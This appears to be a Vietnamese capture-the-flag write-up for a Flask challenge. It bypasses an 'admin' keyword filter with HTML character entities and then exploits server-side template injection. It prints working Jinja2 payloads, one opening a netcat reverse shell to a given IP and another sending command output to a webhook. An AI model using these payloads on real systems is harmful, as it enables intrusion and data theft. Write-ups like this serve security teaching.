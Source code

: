 Bài này sử dụng jwt để render và tạo cookie.Dựa vào source code đi kèm,ta thấy không thể nào bypass được jwt,cookie chỉ có thể do server tạo ra.<b>
Mà server check dựa vào role là user hay admin,ở phần register,nếu ta điền role là admin sẽ bị chặn :<br> 
<a>
```
if "admin" in json_data:
        return jsonify(message="Blocked!")
```
</a>
Ta thấy server check một cách lỏng lẻo,nên ta sẽ bypass bằng cách dùng Unicode.

| Ký tự | Mã Unicode | Ký tự | Mã Unicode |
|-------|------------|-------|------------|
| (space) | `&#32;` | `@` | `&#64;` |
| `!` | `&#33;` | `A` | `&#65;` |
| `"` | `&#34;` | `B` | `&#66;` |
| `#` | `&#35;` | `C` | `&#67;` |
| `$` | `&#36;` | `D` | `&#68;` |
| `%` | `&#37;` | `E` | `&#69;` |
| `&` | `&#38;` | `F` | `&#70;` |
| `'` | `&#39;` | `G` | `&#71;` |
| `(` | `&#40;` | `H` | `&#72;` |
| `)` | `&#41;` | `I` | `&#73;` |
| `*` | `&#42;` | `J` | `&#74;` |
| `+` | `&#43;` | `K` | `&#75;` |
| `,` | `&#44;` | `L` | `&#76;` |
| `-` | `&#45;` | `M` | `&#77;` |
| `.` | `&#46;` | `N` | `&#78;` |
| `/` | `&#47;` | `O` | `&#79;` |
| `0` | `&#48;` | `P` | `&#80;` |
| `1` | `&#49;` | `Q` | `&#81;` |
| `2` | `&#50;` | `R` | `&#82;` |
| `3` | `&#51;` | `S` | `&#83;` |
| `4` | `&#52;` | `T` | `&#84;` |
| `5` | `&#53;` | `U` | `&#85;` |
| `6` | `&#54;` | `V` | `&#86;` |
| `7` | `&#55;` | `W` | `&#87;` |
| `8` | `&#56;` | `X` | `&#88;` |
| `9` | `&#57;` | `Y` | `&#89;` |
| `:` | `&#58;` | `Z` | `&#90;` |
| `;` | `&#59;` | `[` | `&#91;` |
| `<` | `&#60;` | `\` | `&#92;` |
| `=` | `&#61;` | `]` | `&#93;` |
| `>` | `&#62;` | `^` | `&#94;` |
| `?` | `&#63;` | `_` | `&#95;` |
| ``` ` ``` | `&#96;` | ``` ` ``` | `&#96;` |
| `a` | `&#97;` | `n` | `&#110;` |
| `b` | `&#98;` | `o` | `&#111;` |
| `c` | `&#99;` | `p` | `&#112;` |
| `d` | `&#100;` | `q` | `&#113;` |
| `e` | `&#101;` | `r` | `&#114;` |
| `f` | `&#102;` | `s` | `&#115;` |
| `g` | `&#103;` | `t` | `&#116;` |
| `h` | `&#104;` | `u` | `&#117;` |
| `i` | `&#105;` | `v` | `&#118;` |
| `j` | `&#106;` | `w` | `&#119;` |
| `k` | `&#107;` | `x` | `&#120;` |
| `l` | `&#108;` | `y` | `&#121;` |
| `m` | `&#109;` | `z` | `&#122;` |
| `{` | `&#123;` | `\|` | `&#124;` |
| `}` | `&#125;` | `~` | `&#126;` |

Sau khi bypass được check role,ta sẽ khai thác SSTI để tạo revert shell tại <a>`rendered_template = render_template_string(template)`</a> <br>
Payload: 
<a>`{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('nc 172.26.97.248 9999 -e /bin/bash').read() }}
`</a> <br>
Lắng nghe port 9999 : `nc -lvnp 9999` <br>
Cách 2: <br>
Payload: <br>
<a>
```
{
  "template": "{{ url_for.__globals__['__builtins__']['__import__']('urllib2').urlopen('<Link_Webhook>/?flag=' + url_for.__globals__['os'].popen('ls').read()) }}"
}
```
</a> 
Có : <br>
<p> url_for :  Đây là một hàm phổ biến trong Flask dùng để tạo ra URL cho một endpoint cụ thể. </p>
<p> __globals__ : Đây là một thuộc tính của các hàm trong Python, chứa các biến toàn cục có sẵn trong phạm vi hàm đó. Khi gọi url_for.__globals__, ta truy cập được toàn bộ không gian toàn cục của Flask,
bao gồm các hàm, biến và module. </p>
<p> ['__builtins__'] : Đây là một mục trong __globals__, chứa các hàm và biến dựng sẵn của Python. </p>
<p>Trong Python, module builtins chứa rất nhiều hàm dựng sẵn. Các hàm này có thể được sử dụng mà không cần import vì chúng được tích hợp sẵn trong môi trường Python. <br>
Dưới đây là danh sách các hàm phổ biến trong builtins: </p>
        Hàm nhập xuất: <br>
print() :In dữ liệu ra màn hình. <br>
input() : Lấy dữ liệu đầu vào từ người dùng. <br>
open()  : Mở file. <br>
Hàm đặc biệt cho import và unload module: <br>
__import__() :Cho phép import một module mới hoặc lấy lại module đã được import vào bộ nhớ. <br>
Cách dùng __import__('module_name') có thể thay thế cho câu lệnh import module_name. <br>
        
      
